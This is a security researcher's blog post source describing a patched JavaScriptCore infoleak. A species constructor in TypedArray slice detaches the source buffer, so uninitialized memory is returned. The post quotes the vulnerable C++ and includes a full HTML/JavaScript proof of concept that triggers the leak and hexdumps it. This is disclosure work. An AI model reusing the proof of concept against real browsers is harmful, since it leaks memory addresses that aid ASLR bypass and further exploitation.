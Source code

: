 ```yaml
---
layout: post
title:  "JSC %TypedArray%.slice infoleak"
date:   2016-09-19
categories: bugs
---
```

Just a very quick writeup of a bug I found in JavaScriptCore a few weeks ago. The code was at that time only shipping in the [Safari Technology Preview][safari-tech-preview] and got fixed there with [release 12][release-notes].

The bug was located in TypedArrayView.prototype.slice when performing [species construction][species-constructor].
From [JSGenericTypedArrayViewPrototypeFunctions.h][source]:

{% highlight C++ %}
template<typename ViewClass>
EncodedJSValue JSC_HOST_CALL genericTypedArrayViewProtoFuncSlice(ExecState* exec)
{

    // ...

    JSArrayBufferView* result = speciesConstruct(exec, thisObject, args, [&]() {
        Structure* structure = callee->globalObject()->typedArrayStructure(ViewClass::TypedArrayStorageType);
        return ViewClass::createUninitialized(exec, structure, length);
    });
    if (exec->hadException())
        return JSValue::encode(JSValue());

    // --1--

    // We return early here since we don't allocate a backing store if length is 0 and memmove does not like nullptrs
    if (!length)
        return JSValue::encode(result);

    // The species constructor may return an array with any arbitrary length.
    length = std::min(length, result->length());
    switch (result->classInfo()->typedArrayStorageType) {
    case TypeInt8:
        jsCast<JSInt8Array*>(result)->set(exec, 0, thisObject, begin, length, CopyType::LeftToRight);
        break;

    /* other cases */
    }

    return JSValue::encode(result);
}
{% endhighlight %}

At --1-- there is no check if the *thisObject*'s buffer has been [transferred (detached/neutered)][arraybuffer-neutering] while executing a species constructor. Also note that the default constructor (the lambda expression) creates an uninitialized array. It is possible to detach the array buffer during *speciesConstruct* while also invoking the default constructor, for example by setting up the target array as follows:

{% highlight JavaScript %}
var a = new Uint8Array(N);
var c = new Function();
c.__defineGetter__(Symbol.species, function() { transferArrayBuffer(a.buffer); return undefined; });
a.constructor = c;
{% endhighlight %}

*JSGenericTypedArrayView::set* then does the following:

{% highlight C++ %}
template<typename Adaptor>
bool JSGenericTypedArrayView<Adaptor>::set(
    ExecState* exec, unsigned offset, JSObject* object, unsigned objectOffset, unsigned length, CopyType type)
{
    const ClassInfo* ci = object->classInfo();
    if (ci->typedArrayStorageType == Adaptor::typeValue) {
        // The super fast case: we can just memcpy since we're the same type.
        JSGenericTypedArrayView* other = jsCast<JSGenericTypedArrayView*>(object);
        length = std::min(length, other->length());

        RELEASE_ASSERT(other->canAccessRangeQuickly(objectOffset, length));
        if (!validateRange(exec, offset, length))
            return false;

        memmove(typedVector() + offset, other->typedVector() + objectOffset, length * elementSize);
        return true;
    }

    // ...
{% endhighlight %}

here, *other* will be the original array which is detached by now. Its length will be zero and memmove becomes a nop.
This results in an uninitialized array being returned to the caller, potentially leaking addresses and thus allowing for an ASLR bypass.

Here is a complete single-page application ;) to trigger the bug and dump the leaked data:

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
    <style>
    body {
      font-family: monospace;
    }
    </style>

    <script>
    if (typeof window !== 'undefined') {
        print = function(msg) {
            document.body.innerText += msg + '\n';
        }
    }

    function hex(b) {
        return ('0' + b.toString(16)).substr(-2);
    }

    function hexdump(data) {
        if (typeof data.BYTES_PER_ELEMENT !== 'undefined')
            data = Array.from(data);

        var lines = [];
        for (var i = 0; i < data.length; i += 16) {
            var chunk = data.slice(i, i+16);
            var parts = chunk.map(hex);
            if (parts.length > 8)
                parts.splice(8, 0, ' ');
            lines.push(parts.join(' '));
        }

        return lines.join('\n');
    }

    function trigger() {
        var worker = new Worker('worker.js');

        function transferArrayBuffer(ab) {
          worker.postMessage([ab], [ab]);
        }

        var a = null;

        var c = function(){};
        c.__defineGetter__(Symbol.species, function() { transferArrayBuffer(a.buffer); return undefined; });

        for (var i = 0; i < 1000; i++) {
            // Prepare array object
            a = new Uint8Array(new ArrayBuffer(1024));
            a.constructor = c;
            // Trigger the bug
            var b = a.slice(0, 1024);
            // Check if b now contains nonzero values
            if (b.filter((e) => e != 0).length > 0) {
                print('leaked data:');
                print(hexdump(b));
                break;
            }
        }
    }
    </script>
</head>
<body onload="trigger()">
    <p>please wait...</p><br />
</body>
</html>
{% endhighlight %}

The original report will eventually be available [here][report].

[species-constructor]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Symbol/species
[safari-tech-preview]: https://developer.apple.com/safari/technology-preview/
[release-notes]: https://webkit.org/blog/6928/release-notes-for-safari-technology-preview-release-12/
[source]: https://github.com/WebKit/webkit/blob/cd8c9c1537739c0dd635a70d2d390ca7d3ae5873/Source/JavaScriptCore/runtime/JSGenericTypedArrayViewPrototypeFunctions.h#L406
[arraybuffer-neutering]: http://robert.ocallahan.org/2013/07/avoiding-copies-in-web-apis.html
[report]: https://bugs.webkit.org/show_bug.cgi?id=161031
